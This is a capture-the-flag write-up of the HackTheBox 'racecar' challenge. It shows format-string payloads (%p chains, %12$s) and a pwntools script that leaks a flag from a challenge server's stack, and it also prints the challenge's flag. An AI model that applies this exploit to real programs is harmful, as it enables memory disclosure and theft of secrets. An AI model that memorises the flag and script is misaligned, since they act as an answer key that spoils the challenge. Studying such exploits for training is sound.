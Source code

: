 # racecar

> Write-up author: jon-brandy

## DESCRIPTION:
Did you know that racecar spelled backwards is racecar? Well, now that you know everything about racing, win this race and get the flag!

## HINT:
- NONE

## STEPS:
1. First, unzip the file given and enter `hackthebox` as the password.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207557130-3fe9ba23-8bcb-4e88-aa13-5268f073a7c5.png)


2. Next, check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207557218-d4234e3c-3953-4400-bbcc-41b7e95cbfd9.png)


3. It's an ELF 32 bit file, dynamically linked and luckily not stripped.
4. Now check the file's protector.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207557439-109f1672-662f-4626-99f8-f1332be2609f.png)


5. Hmm.. Looks like there's no vuln we can utilize here.
6. Anyway, let's run the file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207557828-d7de0ace-f121-41d7-87c4-4cf18ad7482d.png)


![image](https://user-images.githubusercontent.com/70703371/207557903-9ccaf724-8926-497e-8e6c-f0c44893a15f.png)


![image](https://user-images.githubusercontent.com/70703371/207557945-a8cc3667-034d-47d1-a182-f6ee9c8e4b70.png)


![image](https://user-images.githubusercontent.com/70703371/207557993-c0842a28-250f-4334-8404-0a60ed55e99d.png)



![image](https://user-images.githubusercontent.com/70703371/207558779-ab2e8e92-5f67-4ce2-9c3e-3ff392f6c954.png)



![image](https://user-images.githubusercontent.com/70703371/207558766-204d621a-4ad0-432d-a2f5-5ee2961621b6.png)


7. Let's run the remote server.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207558976-9a6ad069-a3a0-4934-82c9-3b4872ec777e.png)


8. Follow the same steps as before.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207559114-b0da1ce8-c96f-48ac-853a-4efcc5066a68.png)


9. Let's decompile the file using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207559895-986815be-edeb-4683-9478-e3d36c911d04.png)


10. Since we want to know what happen we the program asked us to enter the string, so let's check the `car_menu()` function.

> CAR_MENU()

![image](https://user-images.githubusercontent.com/70703371/207561282-42b1ab93-4e2d-44c2-9ce5-96de15643217.png)


11. Looks like we found the vuln here.


![image](https://user-images.githubusercontent.com/70703371/207561369-793e05fb-0033-4a87-a14f-068e98c0a74d.png)


![image](https://user-images.githubusercontent.com/70703371/207561487-5f783413-f004-416e-a5d0-8b25e6452fa3.png)


12. We can do `format strings attack`, because there's no identifier specified at the `printf()` function.
13. Run the file again, but this time in **gdb** and create the `flag.txt` first.
14. At this session, input `%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p` as the input 


![image](https://user-images.githubusercontent.com/70703371/207562117-efe8541d-b6e8-4398-be85-1bc56f1e09c3.png)


> RESULT

![image](https://user-images.githubusercontent.com/70703371/207567229-8c5649fe-32f8-491b-96af-675bac67da98.png)


15. Great we reached the next step now.
16. Based from the **ghidra** we know this variable stored the **flag** content


![image](https://user-images.githubusercontent.com/70703371/207573182-4c3531ad-4872-486b-b928-63eadb3986e5.png)


> IT HAS 44 BYTES AS THE BUFFER

![image](https://user-images.githubusercontent.com/70703371/207573552-03ea8f31-4fe7-4932-bb31-bd95bb59a9eb.png)


17. Since we know the buffer is 44 bytes, then we need to find the offset of the `__*format`. To find that, since we can't loop to run the file.
18. We can find the offset by input it manually from 1 - 44. -> **(%1-44$s)**.
19. Got a string when i tried to input `%12$s`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207577158-7422df20-9e50-4f19-b53d-6761213df5de.png)


20. It means the start offset of the flag is 12.
21. Let's continue.

> INPUT -> %12$p %13$p 


![image](https://user-images.githubusercontent.com/70703371/207580551-68948635-0c31-46c4-b9ed-33557710e0c3.png)


##### NOTES: Changed the 's' to 'p', because we would get segmentation fault. Just need the hex value.


> CONTINUE -> %12$p %13$p %14$p 


![image](https://user-images.githubusercontent.com/70703371/207580724-8ac03866-2534-4e05-8dd6-ddb58d9db7fd.png)


> CONTINUE -> %12$p %13$p %14$p %15$p 


![image](https://user-images.githubusercontent.com/70703371/207580928-b1531015-450d-47cd-b451-e0952b13ca67.png)


> ETC..

22. To simply automate this, i made a python script to solve this challenge:

> THE SCRIPT

```py
from pwn import *
import os

'''
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


#gdbscript = '''
#init-pwndbg
#continue
'''.format(**locals())
exe = '.racecar'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
'''

os.system('clear')
context.log_level = 'debug' 
payload = ""

for i in range(12, 13):
    payload += "%" + str(i) + "$p " # sh.sendline('%' + str(i) + '$s')

sh = remote('157.245.41.35', 30606)
sh.recvuntil(": ")
sh.sendline(b'Nicolas')
sh.recvuntil(": ")
sh.sendline(b'Nic')
sh.recvuntil("> ")
sh.sendline(b'2')
sh.recvuntil("> ")
sh.sendline(b'1')
sh.recvuntil("> ")
sh.sendline(b'2')
sh.recvuntil("> ")
sh.sendline(payload)
sh.recv()
result = sh.recv()
print(result)


output = (result.decode("utf-8").split("m\n"))[1]
output = output.split()

flag = ""
for items in output:
    flag += p32(int(items, base = 16)).decode("utf-8") #base 16 -> hex , then decode it

print(flag)
```

23. Try to input 13 as the end offset of the flag.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207584221-f3856834-bfcb-4fb5-9a2a-d5906b2ca9d1.png)


24. Got the prefix only.
25. So increment the second parameter of the loop until i got the complete flag.
26. Turns out, i got the flag when the second parameter value is 223.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/207584718-d45605b4-30ed-4bcd-a63d-0af51c2dbe9e.png)


27. Finally, we got the flag!


## FLAG

```
HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}
```



